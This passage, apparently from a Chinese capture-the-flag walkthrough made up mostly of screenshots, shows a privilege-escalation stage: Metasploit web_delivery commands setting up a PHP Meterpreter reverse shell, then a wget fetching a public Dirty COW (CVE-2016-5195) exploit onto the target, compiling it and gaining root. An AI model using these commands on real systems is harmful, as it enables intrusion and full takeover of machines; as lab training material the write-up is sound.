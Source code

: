 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1Y6BynXBWNarnctBt0eAUIpySbVVp2M0EAsJvhZfvBTOOst45V0BJoQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/1DQLmy5KF5MaCtDZZia7mqCsAcicbdgic2icD5s2uXPqW36ByRogdicl1gU9ApjfhRj4xzFa9Qaw5Jib15lSvibvichcFA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ic1JA7F5FW7EwUjZ7Y5D6HTV4J3TpDkT1CoB8KzlyiaGhUQicOMr2N8uU17P8r4QSA6k1znVmLzXaNdlicpXL7KJvA/640?wx_fmt=png)

二、提权

随意输入，输出 www-data... 直接利用即可...

加载 Metasploit 框架以通过反向连接与受害者进行连接...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1TYyEI2h9deSzkicJ47XFxp44PiaJEYJEKOib4AHFJUiaPpLY4z20VQfEWw/640?wx_fmt=png)

```
use exploit/multi/script/web_delivery
set target 1
set payload php/meterpreter/reverse_tcp
set lhost 192.168.182.135
set lport 4444
run
```

这边通过 Metasploit 生成了 php 注释... 直接复制到 web 进行访问即可获得反向链接...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC113OGcKpSBR6xkfibM2ghTJYwHL4bPg1doyQKibqwwauEc7VBCZT8tBRw/640?wx_fmt=png)

链接成功后...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1yDWRFYaOLKyrib0LwoE046NEY18Xfug3iaun32HuU8oqveUP2P9Xnx9w/640?wx_fmt=png)

查看版本，可以利用脏牛进行提权...Dirty cow exploit （CVE-2016-5195）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1icTFqEZdWo4v2vyQ8YdpzGzvhAzfRgjnpcOhlI4C06ufj0vDlB0w0vA/640?wx_fmt=png)

直接下载到靶机服务器即可..

```
wget https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1Tn4FPPYdxx37Iq2bNEGUticqBwUK6I4jQZrsXN26zxmia5OgDFQyn0vw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1N9ibtsibrbj3W0WVWIeMGu3MzrouNwX0Rchq1GpuZEvPX08Ifcf3GicpQ/640?wx_fmt=png)

```
gcc cowroot.c -o dayu -pthread
```

用 gcc 进行编译...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1rxjEicn9bdx8Sf0oXcFwWEETLkVY2icWd4H0HlV4v46hVjvIPhExgbAg/640?wx_fmt=png)

执行并成功获得 root 权限，并查看 flag....
